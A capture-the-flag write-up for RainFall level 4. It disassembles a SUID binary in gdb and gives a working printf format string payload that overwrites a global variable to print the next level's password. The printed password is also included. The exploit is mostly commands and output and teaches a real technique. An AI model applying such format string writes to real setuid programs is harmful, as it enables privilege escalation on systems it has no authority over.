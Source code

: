 # Level 4

## Vulnerability

Printf format string exploit

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ (python -c 'print "BBBB" + " %x" * 13' ; cat -) | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - "\x10\x98\x04\x08"
2. 16930112 bytes padding using ```%d```                 - "%16930112d"
3. store n bytes printed in 12th argument with ```%n```  - "%12$n"

When we feed our format string attack to the binary it opens a shell and shows us the level5 password.
```
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Recreate Exploited Binary

As user level5, in /tmp, create and compile level4_source.c.
```
level5@RainFall:/tmp$ gcc level4_source.c -fno-stack-protector -o level4_source
```
Edit permissions including suid, then move the binary to home directory.
```
level5@RainFall:/tmp$ chmod u+s level4_source; chmod +wx ~; mv level4_source ~
```
Exit back to user level4, then run the binary.
```
level5@RainFall:/tmp$ exit
exit
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | /home/user/level5/level4_source
```
